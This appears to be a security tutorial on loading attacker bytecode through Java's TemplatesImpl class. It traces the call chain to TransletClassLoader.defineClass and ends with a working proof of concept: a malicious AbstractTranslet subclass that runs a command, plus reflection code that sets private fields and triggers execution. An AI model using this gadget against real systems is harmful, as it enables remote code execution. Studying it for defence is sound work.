







## Using TemplatesImpl to Load Bytecode

In the previous articles, we discussed how to load bytecode using `ClassLoader`. However, `defineClass()` is often not exposed, which limits its use in real-world attack scenarios. But there is still a way to exploit `defineClass()` for attacks using the `TemplatesImpl` class.

The `TemplatesImpl` class is part of the Java XML library in the `com.sun.org.apache.xalan.internal.xsltc.trax` package. It implements the `javax.xml.transform.Templates` interface, which stores the bytecode compiled from XSLT and loads and executes it at runtime.

Within `TemplatesImpl`, there is a private inner class called `TransletClassLoader`, which overrides the `defineClass()` method. This method is not explicitly declared as private, so it is accessible from outside the class by default. During XSLT transformation, the `TransletClassLoader` calls `defineClass()` to load the compiled bytecode into the JVM. This creates an opportunity to execute malicious code.



In IDEA, we can use `Alt + Ctrl + H` to view the call hierarchy of the `defineClass()` method.



```
TemplatesImpl#getOutputProperties() 
-> TemplatesImpl#newTransformer() 
-> TemplatesImpl#getTransletInstance() 
-> TemplatesImpl#defineTransletClasses()
-> TransletClassLoader#defineClass()
```
{: .nolineno}

First, check the `TemplatesImpl#defineTransletClasses()` method.



Since the `defineTransletClasses()` method is a private method and cannot be called directly, continue by checking the `TemplatesImpl#getTransletInstance()` method.



Since the `getTransletInstance()` method is still a private method and cannot be called directly, next, continue by checking the `TemplatesImpl#newTransformer()` method.



The `newTransformer()` method is a public method, which means we can call it directly from outside the class. So, we can start directly from the `newTransformer()` method. First, the `newTransformer()` method does not have any restrictions before calling the `getTransletInstance()` method, so we can directly proceed to `getTransletInstance()`.

```java
if (_name == null) return null;

if (_class == null) defineTransletClasses();
```
{: .nolineno}

We can see that before calling the `defineTransletClasses()` method, the program checks whether `_name` is `null`. If it is `null`, it returns `null`, which prevents further progress to the `defineTransletClasses()` method in our intended exploit chain.

```java
private String _name = null;
```
{: .nolineno}

We can assign any `String` value to `_name` via reflection. Since `_class` is originally `null`, the program proceeds to `defineTransletClasses()`.

```java
if (_bytecodes == null) {
    ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
    throw new TransformerConfigurationException(err.toString());
}

TransletClassLoader loader = (TransletClassLoader) AccessController.doPrivileged(new PrivilegedAction() {
    public Object run() {
        return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
    }
});
```
{: .nolineno}

Before executing the `defineClass()` method, if `_bytecodes` is `null`, a `TransformerConfigurationException` will be thrown. From the `defineClass()` method, we can infer that the `_bytecodes` array is actually the array of malicious class bytecode, which we can pass to the `_bytecodes` array.

In this code, `_tfactory` cannot be `null`, otherwise the program will throw a `NullPointerException`. `_tfactory` is a parameter of type `TransformerFactoryImpl`, and we can directly assign it by creating a new instance of `TransformerFactoryImpl`.

```java
private transient TransformerFactoryImpl _tfactory = null;
```
{: .nolineno}



Additionally, `TemplatesImpl` uses its internal `defineTransletClasses()` method to load the compiled bytecode into `Class` objects in the JVM. It needs to ensure that these classes have XSLT transformation capabilities. Most of these capabilities are provided by `AbstractTranslet`, so the bytecode must inherit from the `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` class, otherwise, effective XSLT transformation cannot be performed.

```java
for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);
    final Class superClass = _class[i].getSuperclass();
    
    // Check if this is the main class
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
}

if (_transletIndex < 0) {
    ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
    throw new TransformerConfigurationException(err.toString());
}
```
{: .nolineno}

In this code, `loader.defineClass(_bytecodes[i])` loads the bytecode and returns the corresponding `Class` object. Then, by using `getSuperclass()`, the superclass of the class is obtained. If the superclass is `AbstractTranslet`, it is marked as the main class `_transletIndex`; otherwise, the class is stored in the auxiliary class collection `_auxClasses`. If the value of `_transletIndex` is still less than 0 after the loop, it means no class inheriting from `AbstractTranslet` was found in the loaded bytecode, and the program will throw an exception, indicating that no main translet class was found (`NO_MAIN_TRANSLET_ERR`).

These are the key points to consider when constructing the exploitation chain. Now, let's begin writing the malicious class bytecode and the POC (Proof of Concept).

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TemplatesBytes extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TemplatesCalc {
    public static void main(String[] args) {
        try {
            byte[] code = Files.readAllBytes(Paths.get("C:\\Users\\28367\\Desktop\\TemplatesBytes.class"));
            TemplatesImpl templates = new TemplatesImpl();
            setFieldValue(templates, "_name", "Calc");
            setFieldValue(templates, "_bytecodes", new byte[][]{code});
            setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
            templates.newTransformer();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field declaredField = object.getClass().getDeclaredField(fieldName);
            declaredField.setAccessible(true);
            declaredField.set(object, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

